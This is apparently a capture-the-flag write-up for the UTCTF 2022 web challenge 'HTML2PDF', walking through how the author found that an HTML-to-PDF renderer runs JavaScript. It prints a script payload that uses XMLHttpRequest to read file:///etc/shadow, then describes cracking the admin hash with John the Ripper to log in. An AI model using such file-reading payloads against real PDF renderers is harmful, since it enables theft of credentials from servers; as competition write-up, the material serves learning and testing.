 ```yaml
---
layout: post
category: writeups
title: "UTCTF 2022"
date: 2022-03-07
head_ctf_categories:
  - web
---
```

# web

## HTML2PDF

![img_name](/assets/img/UTCTF_2022/html2pdf.png)


We are given a link to a web page.

![img_name](/assets/img/UTCTF_2022/html2pdf_a.png)


I press the Sumbit button and I get:

![img_name](/assets/img/UTCTF_2022/html2pdf_b.png)


and looking at the bottom I see:

![img_name](/assets/img/UTCTF_2022/html2pdf_c.png)


`Rendered by HTML2PDF`: HTML2PDF as the title of the challenge, a glue?

The clue leads me to make some search on the web and I find:

![img_name](/assets/img/UTCTF_2022/html2pdf_d.png)


Interessant! And following the second web link:


![img_name](/assets/img/UTCTF_2022/html2pdf_e.png)

Very interessant! Let's try a simple script:

```html
<h1 id=rd>HA HA HA</h1>
<script>
document.getElementById('rd').innerHTML= 'Hello World';
</script>
```
and I get:

![img_name](/assets/img/UTCTF_2022/html2pdf_f.png)

and with another script I try to get the passwd file:


![img_name](/assets/img/UTCTF_2022/html2pdf_g.png)

I get:

![img_name](/assets/img/UTCTF_2022/html2pdf_h.png)

there's a nice username:`WeakPasswordAdmin`

So I try to get the shadow file using the following script:

```html
<script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///etc/shadow");
x.send();
</script
```

![img_name](/assets/img/UTCTF_2022/html2pdf_i.png)

and I get:

![img_name](/assets/img/UTCTF_2022/html2pdf_l.png)

I can see the  `hash of WeakPasswordAdmin’s password`


I try to use `John the Ripper` for cracking the password:

![img_name](/assets/img/UTCTF_2022/html2pdf_m.png)

“sunshine” is the password!

So after log in with those credentials I get the flag:

![img_name](/assets/img/UTCTF_2022/html2pdf_n.png)



